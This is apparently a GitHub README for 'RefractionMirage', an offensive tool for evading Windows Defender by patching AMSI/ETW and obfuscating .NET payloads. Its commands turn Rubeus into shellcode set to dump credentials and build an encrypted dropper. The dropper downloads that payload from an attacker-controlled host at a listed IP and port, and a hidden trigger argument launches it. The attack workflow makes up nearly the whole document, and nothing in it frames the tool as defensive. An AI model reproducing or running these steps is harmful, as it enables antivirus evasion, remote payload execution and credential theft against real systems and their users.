

# RefractionMirage
Remote dynamic .NET obfuscator and AMSI/ETW patch tool for bypassing Defender


## 1. Install
```sh
git clone https://github.com/ZumiYumi/RefractionMirage
```
## 2. Run Donut
```sh
donut -i Rubeus.exe -p "dump" -o rubeus.bin
```

## 3. Run Loader and Compile
```sh
python refractionmirage.py --binary rubeus.bin --lhost 10.10.15.170 --lport 443 --urlpath rubeus_enc.bin --output dropper.cs

# EXAMPLE OUTPUT
# [+] Encrypted shellcode saved to rubeus_enc.bin (host this file)
# [+] Dropper written to dropper.cs
# [+] Trigger argument: --oayvnf
# [+] Trigger env variable: ACOOSBOS_MODE=1
# [+] Payload URL: http://10.10.15.170:443/rubeus_enc.bin

# [*] If using Donut, generate shellcode with:
#    donut -i <payload.exe> -o payload.bin

# [*] Compile on Windows (x64):
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /platform:x64 /out:RefractionMirage.exe dropper.cs

# [*] Then run: RefractionMirage.exe --oayvnf
```
You can compile as above instructions, or just by copying refractionmirage.cs and pasting it in Visual Studio.

## Demo



